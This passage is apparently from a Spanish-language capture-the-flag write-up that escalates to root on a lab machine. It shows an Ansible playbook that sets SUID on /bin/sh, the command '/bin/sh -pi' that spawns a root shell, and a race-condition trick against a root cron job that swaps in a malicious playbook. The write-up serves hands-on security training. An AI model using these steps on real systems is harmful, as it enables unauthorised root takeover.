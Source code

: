 ```bash
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: "chmod +s /bin/sh"
```

```bash
# phil@inject (bash)
cat << EOF > /opt/automation/tasks/pwnbook.yml
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: chmod +s /bin/sh
EOF
```

Después de un par de minutos verificamos que /bin/sh{:.filepath} o /bin/dash{:.filepath} tienen SUID, y luego generamos un shell de root.

```bash
# phil@inject (bash)
/bin/sh -pi
```

# Alternative Solution (Bonus)

Imaginemos que el comodín mágico utilizado para ejecutar nuestro propio libro de jugadas no existiera. Incluso sin esto, podemos resolver esta máquina abusando de una condición de carrera en un trabajo CRON. Mira, cada dos minutos root evalúa el playbook en /opt/automation/tasks/playbook_1.yml{:.filepath} junto con el siguiente comando:

```bash
sleep 10 &&
  rm -rf /opt/automation/tasks/* &&
  cp /root/playbook_1.yml /opt/automation/tasks/
```

```bash
 gantt
  dateFormat mm:ss
  axisFormat %M:%S
  tickInterval 2minute
  title Process creation flow
  section CRON Job
  Run playbook : crit, milestone, p1, 00:00, 0s
  Sleep : p2, 00:00, 10s
  Remove playbooks : milestone, p3, 00:10, 0s
  Copy original playbook to tasks folder : milestone, p4, 00:10, 0s
  CRON Wait : w, 00:00, 2m
```

Si observamos la temporización de las llamadas en nuestro registro de PSpy, nos damos cuenta de que el libro de jugadas original se elimina y se sustituye en menos de un segundo. Resulta que podemos utilizar el tiempo entre estas acciones para evitar por completo que el playbook sea reemplazado. Para ello, creamos un directorio en /opt/automation/tasks/playbook_1.yml{:.filepath} mientras que la ruta no se reclama. Cuando la tarea intenta rellenar esa ruta, se encuentra con un error, ya que un archivo no puede sobrescribir un directorio, independientemente de los permisos que tenga. Una vez que el comando cp falla, eliminaremos el directorio y lo reemplazaremos con nuestro playbook malicioso, que se evaluará después de un par de minutos.

